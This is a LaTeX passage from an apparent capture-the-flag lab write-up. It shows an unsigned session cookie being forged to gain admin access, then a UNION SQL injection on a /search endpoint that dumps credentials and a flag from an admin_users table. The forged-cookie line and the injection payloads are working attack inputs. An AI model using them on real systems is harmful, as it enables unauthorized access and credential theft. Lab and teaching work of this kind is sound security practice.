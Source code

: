 \documentclass[a4paper, 12pt]{article}
\begin{document}
Cookie format exposed: \texttt{ID:ROLE:USERNAME} --- no cryptographic signature.

\section{Phase 2 --- Broken Authentication (Cookie Forgery)}

\begin{lstlisting}
document.cookie = "session=1:admin:admin; path=/"
\end{lstlisting}

Refresh any page --- header shows \texttt{Logged in as: admin}. Access to
\texttt{/portal} and \texttt{/search} is now granted.

\section{Phase 3 --- UNION SQL Injection (FLAG \#1)}

The \texttt{/search?q=} endpoint concatenates user input into a raw SQL query.

\subsection*{Step 1 --- Confirm injection}
\begin{lstlisting}
http://192.168.30.10/search?q='
\end{lstlisting}
Error displayed in browser confirms injection. The \texttt{reports} table has 5~columns.

\subsection*{Step 2 --- Dump \texttt{admin\_users}}
\begin{lstlisting}
/search?q=' UNION SELECT 1,username,flag,password,5 FROM admin_users--
\end{lstlisting}

Result:
\begin{lstlisting}
monitor
FLAG{synapse_sqli_creds_dumped}
\end{lstlisting}

\begin{mdframed}[backgroundcolor=labgray, linecolor=flagcolor, linewidth=1pt]
\textbf{\color{flagcolor}FLAG \#1:} \texttt{FLAG\{synapse\_sqli\_creds\_dumped\}}
\end{mdframed}
\end{document}
